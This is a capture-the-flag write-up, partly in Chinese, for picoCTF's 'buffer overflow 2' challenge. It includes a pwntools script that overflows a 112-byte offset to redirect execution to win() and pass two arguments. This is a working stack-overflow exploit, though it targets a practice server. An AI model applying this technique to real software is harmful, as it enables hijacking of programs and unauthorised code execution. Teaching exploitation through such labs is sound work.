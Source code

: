# buffer overflow 2

## Information

### Description

Control the return address and arguments

### Hints

(None)

## Solution

1. Discovery
    * 檢查
    ```sh
        $ file
        $ checksec
    ```

2. Research 
    * 找出 return address 的 offset 與 win() 的 address。
        * 注意 x86 的 stack frame 與 calling convention。
            * 皆在 stack 上。
            * stack 中順序: 下一個 return address 、arg1、arg2、...

3. Exploitation
    ```py
    #! /usr/bin/env python

    from pwn import *

    # nc saturn.picoctf.net 54581
    p = remote(host='saturn.picoctf.net', port=56553)

    # payload: offset=112, arg1=0xCAFEFOOD, arg2=0XFOODFOOD
    win_addr = p32(0x08049296)
    offset = int(112)
    arg1 = p32(0xCAFEF00D) 
    arg2 = p32(0xF00DF00D)


    payload = flat(
        'a'*offset, 
        win_addr,
        0xdeadbeef,
        arg1,
        arg2
    )
    # win_addr = overwrited address
    # 0xdeadbeef -> return address 

    success(payload)

    p.sendlineafter(b'lease enter your string:', payload)
    log.info(p.recvall())

    ```